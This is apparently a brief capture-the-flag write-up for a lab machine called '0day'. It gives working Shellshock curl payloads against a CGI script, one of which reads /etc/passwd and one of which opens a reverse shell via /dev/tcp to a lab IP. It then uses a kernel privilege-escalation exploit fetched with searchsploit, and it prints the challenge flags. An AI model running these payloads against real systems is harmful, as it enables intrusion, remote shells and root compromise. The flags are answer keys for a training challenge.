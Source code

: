 # 0day

> John Hammond |  October 23rd, 2020

------------------------------------

# Potential shellshock?

gobuster logs:

```
/cgi-bin (Status: 301)
/img (Status: 301)
/uploads (Status: 301)
/admin (Status: 301)
/css (Status: 301)
```

# Enumerating cgi-bin:

gobuster logs in cgi-bin

```
test.cgi

http://10.10.78.385/cgi-bin/test.cgi
```

# Code execution

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.78.38/cgi-bin/test.cgi
```

# Reverse shell

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.2.2.132/8888 0>&1'" http://10.10.78.38/cgi-bin/test.cgi
```


## Privesc - kernel version

```
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

```
searchsploit 3.13.0
searchsploit -m linux/local/37292.c

# upload onto victim
```

gcc fails because it find cc1, so, find cc1

```

find / 2>/dev/null | grep cc1

export PATH="$PATH:/usr/lib/gcc/x86_64-linux-gnu/4.8/"
```

```
gcc 37292.c

./a.out # get root!
```

```
# cat root.txt
THM{g00d_j0b_0day_is_Pleased}
#
# cd /home/ryan
# cat user.txt
THM{Sh3llSh0ck_r0ckz}
```